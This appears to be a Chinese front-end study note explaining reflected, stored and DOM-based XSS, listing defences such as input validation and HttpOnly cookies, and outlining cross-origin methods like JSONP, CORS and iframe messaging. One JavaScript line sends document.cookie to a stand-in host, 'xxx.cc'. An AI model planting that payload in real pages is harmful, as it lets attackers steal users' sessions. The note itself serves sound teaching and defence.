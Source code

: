 > 还有一种常见的被动攻击方式：XSS，应该是在网站中插入代码来盗取用户的cookie。原理是通过JavaScript代码注入页面。

- `Reflected XSS`（基于反射的 `XSS` 攻击）：主要通过利用**系统反馈**行为漏洞，并欺骗用户主动触发，从而发起 `Web` 攻击。
- `Stored XSS`（基于存储的 `XSS` 攻击）：`Stored XSS` 和 `Reflected XSS` 的差别就在于，具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。
- `DOM-based or local XSS`（基于 `DOM` 或本地的 `XSS` 攻击）：`DOM` 型 `XSS` 其实是一种特殊类型的反射型 `XSS`，它是基于 `DOM` 文档对象模型的一种漏洞。可以通过 `DOM` 来动态修改页面内容，从客户端获取 `DOM` 中的数据并在本地执行。基于这个特性，就可以利用 `JS` 脚本来实现 `XSS` 漏洞的利用。

```js
// 常见的XSS插入到DOM的代码，盗取用户的cookie
(new Image()).src = 'http://xxx.cc/steal-cookie?cookies=' + document.cookie
```

**防范策略：**

- 对所有用户提交内容进行可靠的输入验证，包括对 `URL`、查询关键字、`HTTP`头、`POST`数据等，仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交，对其他的一律过滤。
- 使用 `HTTP` 头指定类型，很多时候可以使用 `HTTP` 头指定内容的类型，使得输出的内容避免被作为 `HTML` 解析。
- 确认接收的的内容被妥善的规范化，仅包含最小的、安全的 `Tag` (没有 `JS` )，去掉任何对远程内容的引用(尤其是样式表和 `JS` )，可以对内容进行编码，把标签的符号编码掉。
- 使用 `HTTP only` 的 `Cookie`。

---

## 纯粹的跨全域和通过iframe跨域

跨域可分为两种：

- 一种是纯粹的跨域，并不需要依靠iframe和对应的window属性
- 另一种是通过iframe的跨域，通过iframe和一些window属性进行信息的通信。

---

## 纯粹的跨域

- JSONP
- CORS
- Server Proxy

## 通过iframe的方法

- 通过iframe的location.hash
- 通过window.name
- 通过postMessage
- document.domain

---

## JSONP

因为`script`标签的src不受同源策略限制，所以可以通过`script`标签把src添上后台的接口，通过query的形式把函数传到后台，然后后台把参数放到函数里面并返回到前端，因为返回的是JS，同时又是`script`标签，所以直接执行这个函数，通过后台填入的参数进行处理，从而跨域获得后台的数据。

缺点：

- 它支持 GET 请求而不支持 POST 等其它类型的 HTTP 请求。
